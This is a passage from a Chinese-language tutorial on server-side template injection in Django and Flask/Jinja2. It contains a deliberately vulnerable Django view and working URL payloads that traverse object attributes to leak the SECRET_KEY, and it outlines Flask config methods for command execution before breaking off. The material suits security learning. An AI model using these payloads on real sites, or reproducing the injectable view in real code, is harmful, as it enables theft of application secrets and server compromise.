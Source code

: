 因为这里面的摸吧模板似乎都是内置于框架内的，于是我就将其放在利用框架这一节

##### **1.Django**

```{
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
```

注入点很明显就是 email，但是如果我们的能力已经被限制的很死，很难执行命令，但又想获取和 User 有关的配置信息的话，我么怎么办？

可以发现我们现在拿到的只有有一个 和user 有关的变量，那就是 request user ，那我们的思路是什么？

p牛在自己的博客中分享了这个思路，我把它引用过来：

> Django是一个庞大的框架，其数据库关系错综复杂，我们其实是可以通过属性之间的关系去一点点挖掘敏感信息。但Django仅仅是一个框架，在没有目标源码的情况下很难去挖掘信息，所以我的思路就是：去挖掘Django自带的应用中的一些路径，最终读取到Django的配置项

什么意思，简单地说就是我们在没有应用源码的情况下要学会去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用，然后一步一步的靠近我们的目标

后来我们发现，经过翻找，我发现Django自带的应用“admin”（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：

**如下图：**

![0WlWqO.png](https://s1.ax1x.com/2020/10/12/0WlWqO.png)

所以，思路就很明确了：我们只需要通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

**payload:**

```url
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}


http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

##### **2.Flask/Jinja2**

config 是Flask模版中的一个全局对象，它代表“当前配置对象(flask.config)”，它是一个类字典的对象，它包含了所有应用程序的配置值。在大多数情况下，它包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值。虽然config是一个类字典对象，但是通过查阅文档可以发现 config 有很多神奇的方法：from_envvar, from_object, from_pyfile, 以及root_path。

![image-20201013130652692](C:\Users\Mr.King\AppData\Roaming\Typora\typora-user-images\image-20201013130652692.png)

这里我们利用 from_pyfile 和 from_object 来命令执行，下面是这两个函数的源代码（为了阅读清晰，注释我删除了）

**源码：**

```python
def from_pyfile(self, filename, silent=False):

    filename = os.path.join(self.root_path, filename)
    d = types.ModuleType('config')
    d.__file__ = filename
    try:
        with open(filename) as config_file:
            exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
    except IOError as e:
        if silent and e.errno in (errno.ENOENT, errno.EISDIR):
            return False
        e.strerror = 'Unable to load configuration file (%s)' % e.strerror
        raise
    self.from_object(d)
    return True


def from_object(self, obj):

```